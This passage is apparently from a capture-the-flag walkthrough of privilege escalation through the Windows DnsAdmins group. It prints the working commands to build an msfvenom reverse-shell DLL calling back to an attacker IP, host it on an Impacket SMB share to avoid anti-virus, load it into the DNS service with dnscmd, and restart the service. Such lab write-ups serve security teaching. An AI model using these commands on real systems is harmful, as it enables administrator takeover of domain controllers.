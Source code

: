 ```

One group here that stands out is the only local group, `MEGABANK\DnsAdmins`. The name of this group seems to imply that they have some sort of administrator capability that we could possibly abuse. A great write-up describing the attack we want is found [here](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2).

The article describes that a user in the `DnsAdmins` group can load arbitraty DLLs on the DNS server as root. First, we will build a reverse shell DLL using `msfvenom`.

```
# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.142 LPORT=12345 -f dll > reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```

Next, we will create a temporary SMB server from Impacket to host our DLL from to download to the machine. For Windows, this is better than using a regular Python HTTP server because of anti-virus.

```
# impacket-smbserver SHARE .
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

We will set up a `netcat` listener on our machine to listen for the reverse connection and then inject our DLL into the DNS running in order to get Administrator and get the flag.

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.142\SHARE\reverse.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns
